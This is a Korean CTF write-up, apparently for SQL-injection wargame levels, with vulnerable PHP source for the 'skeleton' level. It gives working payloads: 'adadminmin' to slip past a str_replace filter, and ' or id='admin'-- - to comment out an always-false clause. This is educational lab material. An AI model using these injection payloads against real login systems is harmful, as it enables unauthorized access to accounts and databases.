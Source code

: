 ![str_replace](/assets/img/post/str_replace.png)
### exploit
이번에도 **'**를 필터링하고 **str_replace**라는 함수가 사용되었다.
이 함수를 우회하는 방법으로는 str_replace함수를 지나서도 문자열이 유지되도록 하면된다.

```sql
select id from prob_vampire where id='{$_GET[id]}'
-> select id from prob_vampire where id='adadminmin'
payload = adadminmin
```
adadminmin을 입력하면 str_replace가 적용되어 admin이 지워져도 ad와 min이 합쳐져 admin이라는 문자열을 입력할 수 있다.
<br><br>

## Skeleton
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```
### exploit
별다른 필터링은 없지만 쿼리문 뒤에 and 1=0이 있어 어떤 입력값을 넣어도 거짓으로 만든다.
```sql
select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0
-> select id from prob_skeleton where id='guest' and pw=''or id='admin'-- -' and 1=0
payload = ' or id='admin'-- -
```
악의적인 입력값을 입력한 후에 -- -로 쿼리의 뒷부분을 주석처리하여 동작하지 않도록 만든다.
<br><br>
